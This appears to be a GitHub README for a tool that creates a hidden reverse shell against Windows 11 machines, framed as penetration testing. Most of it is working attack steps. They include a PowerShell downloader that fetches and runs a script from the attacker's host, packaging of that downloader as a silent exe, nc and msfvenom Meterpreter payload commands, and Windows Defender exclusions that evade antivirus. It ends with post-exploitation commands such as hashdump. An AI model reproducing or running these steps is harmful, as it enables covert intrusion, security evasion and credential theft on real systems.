 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$ps_name = "reverse_shell.ps1"                # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press `Ctrl + Alt + t` for open a first Kali Linux terminal and execute `sudo su` and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write `pwsh` for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath/$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. Write `exit` and continue in first Kali Linux terminal with the following commands:

```bash

cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

6. Return to the Kali terminal and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

7. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ExclusionProcess "powershell.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
```


8. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```
 - **Note:** If after entering the above commands you do not see any newly added rules in Windows Defender, repeat the procedure until they appear. If after some time there are still no changes, then check the launch of the hidden reverse shell with administrator privileges

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal 2 and execute `sudo su` and the following commands:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```
 - This commands creates PS1 file and EXE file for running meterpreter backdoor in the target:

3. Use the provided PowerShell script for pasting in the first Kali shell. Write `pwsh` and the following commands:

```powershell
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal 3 for msfconsole and execute `sudo su` then `msfconsole` the following commands:

```msfconsol
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost $lhost
set lport $lport
exploit
```

5. Return to the first Kali shell and paste the content from Kali terminal 2 after command `cat $lpathnew$ps_name` of your changed Meterpreter script on the target like that:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
```

6. Paste this commands after execute meterpreter script
   
```powershell
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
$rhost$ps_name
```

7. If successful, you will see a Meterpreter session opened in the msfconsole like that.

```msfconsole
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending stage (201798 bytes) to 192.168.0.13
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.13:49687) at 2024-03-10 16:16:16 +0200

meterpreter > 
```
 - Congratulations, you have a full reverse shell on your target.

## Example Commands Meterpreter

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

## Example stay in target system after rebooting



Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!

